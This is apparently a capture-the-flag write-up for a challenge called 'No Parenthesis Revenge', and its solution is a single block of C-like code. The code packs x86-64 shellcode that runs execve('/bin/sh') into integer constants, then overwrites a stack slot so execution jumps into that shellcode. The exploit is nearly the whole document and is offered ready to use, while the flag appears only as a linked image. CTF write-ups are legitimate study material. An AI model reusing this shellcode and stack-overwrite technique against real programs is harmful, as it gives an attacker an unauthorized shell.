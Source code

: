 # No Parenthesis Revenge

Solved by **XXX**

## Question
everyone knows revenge challenges are secretly just hints for the first version of the challenge

## Solution
```
typedef unsigned long long size_t; void *voidptr; size_t*  tmp1; size_t** tmp2; size_t** stack; unsigned char* sc_start; size_t rop[6]; rop[0] = 0x06eb905299583b6a; rop[1] = 0x06eb9068732f6ebb; rop[2] = 0x06eb909020e3c148; rop[3] = 0x06eb9069622f2fbf; rop[4] = 0x06eb5f5453fb3148; rop[5] = 0x06eb050f5e545752; voidptr = &_start; sc_start = voidptr; sc_start += 6;  voidptr = sc_start; tmp1 = voidptr; tmp2 = &tmp1; voidptr = &rop; stack = voidptr; stack[13] = *tmp2; return rop[0];
```

### Flag
[![bbcbc5a4-51f0-4089-9f5b-ee57f4b25c18.jpg](https://i.postimg.cc/RCYhtZ1X/bbcbc5a4-51f0-4089-9f5b-ee57f4b25c18.jpg)](https://postimg.cc/V5jzQ1VC)
